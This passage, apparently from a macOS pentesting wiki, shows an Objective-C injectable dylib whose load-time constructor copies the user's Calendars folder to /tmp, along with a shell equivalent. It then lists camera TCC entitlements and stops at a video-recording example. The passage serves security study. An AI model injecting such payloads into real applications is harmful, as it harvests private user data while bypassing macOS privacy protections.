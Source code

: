 {% tabs %}
{% tab title="ObjectiveC" %}
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
    NSString *tmpPhotosPath = @"/tmp/calendars";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
{% endtab %}
{% endtabs %}

### Camera

* **Entitlement**: `com.apple.security.device.camera`
* **TCC**: `kTCCServiceCamera`

{% tabs %}
{% tab title="ObjetiveC - Record" %}
Record a 3s video and save it in **`/tmp/recording.mov`**
